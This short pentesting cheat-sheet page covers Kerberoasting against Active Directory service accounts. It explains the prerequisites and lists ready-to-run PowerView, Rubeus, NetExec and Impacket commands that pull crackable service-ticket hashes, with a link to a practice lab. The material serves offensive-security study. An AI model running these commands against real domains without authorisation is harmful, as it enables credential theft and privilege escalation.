

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---

# Kerberoasting

## TL;DR

Kerberoasting is an attack to SPN accounts. SPNs are unique IDs that Kerberos uses to map a service instance to a service account in whose context, often privileged, the service is running. For obtaining the Service Ticket (ST) one of the following is needed:

1. An account's cleartext pass (or NTLM hash)
2. A shell in the context of a domain user account
3. `SYSTEM` level access on a domain-joined host

The ST (TGS-REP) (Figure 1) is encrypted with the service's account NTLM hash, so the plaintext password can potentially be cracked.

<figure><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Windows



```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```



```powershell
.\Rubeus.exe kerberoast
```



## Linux



```bash
nxc ldap 192.168.0.104 -u user -p pass --kerberoasting output.txt
```



```bash
GetUserSPNs.py -dc-ip 172.16.5.5 DOMAIN/user -request -outputfile spns.lst
```



## Practice




[active.md](../../../boxes/easy/active.md)




## Resources








Video demonstration of Kerberoasting.





A great article detailing the Kerberoasting process.



